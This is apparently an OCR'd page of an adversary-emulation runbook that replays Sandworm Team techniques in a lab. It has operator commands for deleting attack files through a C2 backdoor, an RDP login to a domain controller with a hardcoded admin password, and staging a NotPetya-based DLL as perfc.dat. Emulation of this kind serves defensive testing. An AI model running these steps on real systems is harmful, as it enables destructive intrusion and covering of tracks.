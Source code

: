 Cleanup artifacts.

```bash
# Sandworm Team has used backdoors that can delete files used in an attack from an infected system.

./evalsC2client.py --set-task Exaramel-Windows "exec-cmd del /Q C:\\Windows\\System32\oradump.exe C:\\Windows\\System32\\mslog.exe C:\\Windows\\System32\\mslog.txt"
```

:warning: Go back to the gammu RDP session; right-click sign-out.

### :microscope: Cited Intelligence

* https://www.welivesecurity.com/2016/12/13/rise-telebots-analyzing-disruptive-killdisk-attacks/

* https://www.welivesecurity.com/2017/06/30/telebots-back-supply-chain-attacks-against-ukraine/

<br>

## Test 9 (Steps 18-19)

### Step 18 - Pivot to DC

:microphone: `voice track`

Sandworm logs into arrakis/10.0.1.4 over RDP using domain credentials (patreides).

Sandworm uploads a DLL based on NotPetya to arrakis (C:\Windows\perfc.dat) over a network share tunneled through the RDP connection.

```
File write: C:\Windows\perfc.dat
```

### :biohazard: Procedures

:warning: go back to your first terminal window; rename to RDP into arrakis. 

RDP into arrakis/domain controller using domain admin credentials.

```bash
# Sandworm Team has used stolen credentials to access administrative accounts within the domain.

xfreerdp +clipboard /u:WORKGROUP\\patreides /p:"ebqMB7DmM81QVUqpf7XI" /v:10.0.1.4 /drive:X,sandworm/Resources/NotPetya/bin
```

Accept certificate warnings if prompted.

Once logged in, close server manager and any spurious warnings or pop-ups.

Open PowerShell as administrator `(right click > run as administrator > yes)`:

Copy NotPetya from dungeon to arrakis over RDP channel:

```
copy \\TSCLIENT\X\SharpNP.dll C:\Windows\perfc.dat
```
